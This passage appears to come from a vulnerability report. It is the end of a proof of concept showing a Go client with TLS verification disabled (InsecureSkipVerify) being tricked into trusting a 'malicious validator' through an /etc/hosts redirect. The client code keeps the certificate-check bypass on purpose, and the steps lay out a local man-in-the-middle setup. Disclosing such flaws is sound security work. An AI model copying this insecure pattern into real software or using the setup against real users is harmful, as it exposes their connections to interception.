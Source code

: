         
        	// The client intends to connect to "legit-validator.com".
        	// In a real attack, this hostname could be redirected to an attacker's IP
        	// via DNS poisoning, BGP hijack, or a compromised network.
        	// For this PoC, we will simulate this redirection using /etc/hosts.
        	targetURL := "https://legit-validator.com:8443" // This hostname will resolve to localhost due to /etc/hosts modification
        
        	fmt.Printf("Attempting to connect to %s with InsecureSkipVerify enabled...\n", targetURL)
        	resp, err := client.Get(targetURL)
        	if err!= nil {
        		log.Fatalf("Error making request: %v", err)
        	}
        	defer resp.Body.Close()
        
        	body, err := ioutil.ReadAll(resp.Body)
        	if err!= nil {
        		log.Fatalf("Error reading response body: %v", err)
        	}
        
        	fmt.Printf("Response from %s: %s\n", targetURL, string(body))
        	fmt.Println("WARNING: Connection successful despite certificate mismatch/untrustworthiness!")
        }
        ```
        
4. **Execute PoC:**
    - **Compile all Go files:**Bash
        
        `go build legit_validator.go
        go build malicious_validator.go
        go build vulnerable_client.go`
        
    - **Run the legitimate validator (optional for full demonstration, but good for context):**
    You can run this on a different port or a simulated remote server. For simplicity, it's not strictly necessary for the `vulnerable_client` to connect to it directly in this specific PoC, as the PoC focuses on the `InsecureSkipVerify` bypass.
    
    ./legit_validator
    ```
    
    - **Run the malicious validator locally:** This will listen on port 8443.
    
    ./malicious_validator
    ```
    
    - **Modify your `/etc/hosts` file (or equivalent on Windows):**
    Add the following line to redirect traffic for `legit-validator.com` to your local machine (where the malicious server is running):
        
        `127.0.0.1 legit-validator.com`
        
        *Remember to remove this line after the PoC to restore normal DNS resolution.*
        
    - **Run the vulnerable client:**
    
    ./vulnerable_client
    ```
    
